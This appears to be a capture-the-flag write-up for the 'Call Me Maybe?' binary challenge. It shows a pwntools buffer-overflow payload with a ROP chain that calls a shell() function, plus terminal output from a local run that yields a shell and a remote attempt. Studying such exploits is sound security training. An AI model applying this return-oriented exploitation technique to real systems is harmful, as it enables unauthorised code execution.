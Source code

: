 The payload is something like this (using python pwntools)
```
contact = b"A"*64 # Padding for the variable contact
padding = b"A"*8 # Bruteforce the requred extra padding before it doesn't crash

## ROP Gadgets
ropchain = b""
ropchain += p64(0x0000000000400873) #pop rdi; ret
ropchain += p64(0xDEADBEEF) # the value for the above command to load in rdi. The computer then moves to the instruction below
ropchain += p64(0x00000000004006ea) # shell()
payload = contact + padding + ropchain
```

Running the code with this payload in `local_solve.py` gets me a shell

```
terminals database is inaccessible
Warning: _curses.error: setupterm: could not find terminfo database

Terminal features will not be available.  Consider setting TERM variable to your current terminal name (or xterm).
[x] Starting local process 'Given/callmemaybe'
[+] Starting local process 'Given/callmemaybe': pid 30180
96
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAs\x08@\x00\x00\x00\x00\x00\xef\xbe\xad\xde\x00\x00\x00\x00\xea\x06@\x00\x00\x00\x00\x00'
[*] Switching to interactive mode
 _______  _     _  __    _  _______  __   __  _______  _______  ______   
|       || | _ | ||  |  | ||       ||  | |  ||       ||       ||    _ |  
|    _  || || || ||   |_| ||_     _||  | |  ||_     _||   _   ||   | ||  
|   |_| ||       ||       |  |   |  |  |_|  |  |   |  |  | |  ||   |_||_
|    ___||       ||  _    |  |   |  |       |  |   |  |  |_|  ||    __  |
|   |    |   _   || | |   |  |   |  |       |  |   |  |       ||   |  | |
|___|    |__| |__||_|  |__|  |___|  |_______|  |___|  |_______||___|  |_|

=========================================================================
                         Stage 3: Call Me Maybe?
=========================================================================
Enter Contact => Calling AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@...
hacker
cat: /home/callmemaybe/flag.txt: No such file or directory
```

### Running on server

Running this on the remote server does not get me a shell though so maybe there is something wrong? I am not even sure if there is a segmentation fault since the error messages are not sent over netcat (I tried).

```
terminals database is inaccessible
Warning: _curses.error: setupterm: could not find terminfo database

Terminal features will not be available.  Consider setting TERM variable to your current terminal name (or xterm).
[x] Opening connection to 3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg on port 30201
[x] Opening connection to 3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg on port 30201: Trying 134.209.101.215
[+] Opening connection to 3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg on port 30201: Done
96
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAs\x08@\x00\x00\x00\x00\x00\xef\xbe\xad\xde\x00\x00\x00\x00\xea\x06@\x00\x00\x00\x00\x00'
[*] Switching to interactive mode
 _______  _     _  __    _  _______  __   __  _______  _______  ______   
```